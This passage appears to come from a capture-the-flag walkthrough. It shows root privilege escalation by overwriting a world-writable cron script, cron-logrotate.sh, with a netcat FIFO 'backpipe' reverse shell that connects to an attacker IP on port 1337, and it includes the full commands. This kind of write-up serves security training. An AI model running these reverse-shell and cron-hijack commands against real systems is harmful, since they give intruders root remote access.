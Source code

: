 lets take a look

``` bash
cat /usr/local/sbin/cron-logrotate.sh 
```

gives:

```
#Simon, you really need to-do something about this
```

Ok, so this means every 5 min root executes the contents of cron-logrotate.sh.
Because this file is world writable all we need to do append a command to the end of it, wait 5 min and it'll execute as root.

While my imagination runs wild with the possibilities, I'll just append a bash reverse shell and wait 5 min.

lets make a reverse shell with msfvenom and create a simple web server for transfer.

I tried a few different variants of shells, from bash to py and to msfvenom payloads but was met with no success. It is difficult to debug this, as we are executing blind and cannot see what is happening in the excution flow.

on a scrape for tools to help I considered nc and telnet backpiping as the execute flag returned this error:

```
nc: invalid option -- 'e'
```

To 'backpipe' a connection we need to make a device node to act as our conduit for the connection.
We then create a network relay to the attacker machine with all of the outputs directed to the device node file. Finally we pipe all of the contents as they are written to the backpipe to a shell, in turn granting code execution  

Fairly standard backpipe shell command looks like this:

``` bash
mknod /tmp/backpipe p; nc 192.168.56.1 1337 0</tmp/backpipe | /bin/bash 1>/tmp/backpipe

```

make a a FIFO (p type) node called backpipe, then open nc connection to the attacker over port 1337, accepting all input from the backpipe file, pipe all stdin from /bin/bash to backpipe.

This command works provided I have a shell execution (which I do), but what if I get into a situation where I lose the shell? I will want make the cron job only open the shell, not create a new node thus a reliable backpipe invocation looks something like: 

``` bash
nc 192.168.56.1 1337 0</tmp/backpipe | /bin/bash 1>/tmp/backpipe
```

lets create the device and pipe the command into the job 

``` bash
mknod /tmp/backpipe p; echo "nc 192.168.56.1 1337 0</tmp/backpipe | /bin/bash 1>/tmp/backpipe" > /usr/local/sbin/cron-logrotate.sh 
```
